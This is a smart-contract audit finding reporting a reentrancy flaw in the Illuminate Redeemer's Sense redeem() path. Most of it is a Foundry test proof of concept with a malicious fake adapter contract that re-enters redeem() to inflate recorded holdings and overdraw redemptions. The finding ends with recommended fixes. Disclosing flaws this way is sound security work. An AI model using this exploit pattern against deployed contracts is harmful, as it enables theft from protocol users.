 Holmgren

high

# Reentrancy and using user-supplied address in Sense variant of redeem() allows for manipulating holdings and increasing redemption payouts

## Summary

Reentrancy and using user-supplied address in Sense variant of redeem() allows for manipulating holdings and increasing redemption payouts.

## Vulnerability Detail

One of the `redeem(...)` methods calls into an address supplied by the user (https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L370) and then updates `holdings` afterwards (https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L394). An attacker can supply an address of a malicious contract that re-enters this `redeem()` method multiple times and in the final call gifts some amount of the underlier to the `Redeemer`. This gift will be accounted for multiple times - one time for each level of recursion.
 
## Impact

Any user can artificially inflate `Redeemer`'s `holdings` for a small price. Any holder of Illuminate tokens can do that to increase his redemptions.

## Code Snippet
PoC:
```diff
diff --git a/test/fork/FakeSenseAdapterAndDivider.sol b/test/fork/FakeSenseAdapterAndDivider.sol
new file mode 100644
index 0000000..4044163
--- /dev/null
+++ b/test/fork/FakeSenseAdapterAndDivider.sol
@@ -0,0 +1,65 @@
+// SPDX-License-Identifier: UNLICENSED
+pragma solidity 0.8.16;
+
+import 'src/interfaces/ISenseAdapter.sol';
+import 'src/interfaces/ISenseDivider.sol';
+import 'src/Redeemer.sol';
+
+/// Malicious contract that pretends to be SenseAdapter, SenseDivider and the
+/// compounding token
+contract FakeSenseAdapterAndDivider {
+    Redeemer redeemer;
+    address underlying;
+    uint256 maturity;
+    uint256 senseMaturity;
+    uint256 depth;
+
+    constructor (Redeemer _redeemer, address _underlying, uint256 _maturity, uint256 _senseMaturity, uint256 _depth) {
+        redeemer = _redeemer;
+        underlying = _underlying;
+        maturity = _maturity;
+        senseMaturity = _senseMaturity;
+        depth = _depth;
+    }
+
+    /* API expected from SenseAdapter */
+
+    function divider() external view returns (address) { return address(this); }
+    function target() external view returns (address) { return address(this); }
+
+    /* API expected from SenseDivider */
+
+    function redeem(address, uint256, uint256) external returns (uint256) {
+        if (depth == 0) {
+            // We are as deep as we want to get in our recursion. Transfer
+            // underlier to Redeemer to make it look like a redemption actually
+            // took place.
+            IERC20(underlying).transfer(
+                address(redeemer),
+                IERC20(underlying).balanceOf(address(this)));
+            return 0;
+        }
+        depth--;
+        // Call into Redeemer again passing this malicious contract as the
+        // SenseAdapter
+        redeemer.redeem(
+            6,
+            underlying,
+            maturity,
+            senseMaturity,
+            address(this)
+        );
+        return 0;
+    }
+
+    /* API expected from the compouding token */
+
+    function balanceOf(address) external pure returns (uint256) { return 0; }
+    function transferFrom(address, address, uint256) pure external returns (bool) {
+        return true;
+    }
+    function unwrap(uint256) external pure returns (uint256) { return 0; }
+    function transfer(address, uint256) external pure returns (bool) {
+        return true;
+    }
+}
diff --git a/test/fork/Redeemer.t.sol b/test/fork/Redeemer.t.sol
index 5866ea2..e2b4267 100644
--- a/test/fork/Redeemer.t.sol
+++ b/test/fork/Redeemer.t.sol
@@ -11,6 +11,7 @@ import 'src/Lender.sol';
 import 'src/Converter.sol';
 
 import 'src/interfaces/ISenseDivider.sol';
+import 'test/fork/FakeSenseAdapterAndDivider.sol';
 
 /* Note we test many protocols by checking if underlying balance is gt 0, post-
 redemption. There might be a better way to approximate how much we expect.
@@ -340,16 +341,20 @@ contract RedeemerTest is Test {
         assertEq(IERC20(principalToken).balanceOf(address(l)), 0);
     }
 
-    function testSenseRedeem() public {
-        address principalToken = Contracts.SENSE_TOKEN;
+    function testSenseRedeem_exploit() public {
+        uint256 recursionDepth = 10;
+        address attacker = 0x7111F9Aeb2C1b9344EC274780dc9e3806bdc60Ef;
+        deployMarket(Contracts.STETH, 0);
+        address illuminateToken = mp.markets(Contracts.STETH, maturity, 0);
 
         uint256 settledTimestamp = Contracts.SENSE_MATURITY + 1 minutes;
 
-        // set timestamp between 3 and 6 hours after maturity
-        deployMarket(Contracts.STETH, 0);
-
-        // give lender principal tokens
+        // Attacker and a user both lent to Sense for half the startingBalance
         deal(Contracts.SENSE_TOKEN, address(l), startingBalance);
+        deal(illuminateToken, attacker, startingBalance/2, true);
+        deal(illuminateToken, msg.sender, startingBalance/2, true);
+        // In addition attacker will spend 1/10th of the startingBalance on this attack
+        deal(Contracts.WSTETH, attacker, startingBalance /recursionDepth);
 
         // set the timestamp within the settlement window for the series sponsor
         vm.warp(settledTimestamp);
@@ -364,14 +369,19 @@ contract RedeemerTest is Test {
 
         // approve redeemer to spend lender's tokens
         vm.startPrank(address(l));
-        IERC20(Contracts.SENSE_TOKEN).approve(address(r), startingBalance);
+        IERC20(Contracts.SENSE_TOKEN).approve(address(r), type(uint256).max);
         vm.stopPrank();
 
         vm.startPrank(address(r));
         IERC20(Contracts.WSTETH).approve(address(c), type(uint256).max);
         vm.stopPrank();
 
-        // execute the redemption
+        // Let the magic begin!
+        vm.startPrank(attacker);
+        IERC20(Contracts.WSTETH).approve(Contracts.WSTETH, type(uint256).max);
+        ILido(Contracts.WSTETH).unwrap(startingBalance/10);
+        
+        // Legitimate, honest redemption on Sense
         r.redeem(
             6,
             Contracts.STETH,
@@ -380,10 +390,45 @@ contract RedeemerTest is Test {
             Contracts.SENSE_ADAPTER
         );
 
-        // verify that the underlying is now held by the redeemer contract
-        assertGt(IERC20(Contracts.STETH).balanceOf(address(r)), 0);
-        // verify the lender no longer holds the principal token
-        assertEq(IERC20(principalToken).balanceOf(address(l)), 0);
+        // Attacker deploys a contract that will pretend to be Sense Adapter but
+        // actually does something nefarious:
+        // It re-enters Redeem.redeem() recursionDepth times. In the final
+        // call it will give all its underlying coins to the Redeemer
+        // - to make it look like a real redemption has taken place.
+        FakeSenseAdapterAndDivider fakeSenseAdapter = new FakeSenseAdapterAndDivider(
+            r,
+            Contracts.STETH,
+            maturity,
+            Contracts.SENSE_MATURITY,
+            recursionDepth
+        );
+        // Attacker gives 1/10th of the startingBalance in the underlying coins
+        // to the fake contract
+        IERC20(Contracts.STETH).transfer(address(fakeSenseAdapter), startingBalance/10);
+        // Execute the attack
+        r.redeem(
+            6,
+            Contracts.STETH,
+            maturity,
+            Contracts.SENSE_MATURITY,
+            address(fakeSenseAdapter)
+        );
+
+        // Now Redeemer thinks that it holds more of the underlier than it actually does
+        assertGt(r.holdings(Contracts.STETH, maturity),
+                 IERC20(Contracts.STETH).balanceOf(address(r)));
+
+        // The attacker still holds his Illuminate tokens
+        assertEq(IERC20(illuminateToken).balanceOf(attacker), startingBalance/2);
+
+        // The attacker redeems them
+        r.redeem(Contracts.STETH, maturity);
+
+        // The attacker now has startingBalance of the underlier
+        assertGe(IERC20(Contracts.STETH).balanceOf(attacker), startingBalance);
+        // But the attacker spent only startingBalance/2 of the Illuminate
+        // tokens and startingBalance/10 of the underlier. The attacker got richer.
+        vm.stopPrank();
     }
 
     function testPendleRedeem() public {
```

## Tool used

Manual Review

## Recommendation

* Make the Redeemer contract non-reentrant. Or at least the various `redeem()` methods.
* Consider using only pre-approved addresses of the SenseAdapter.
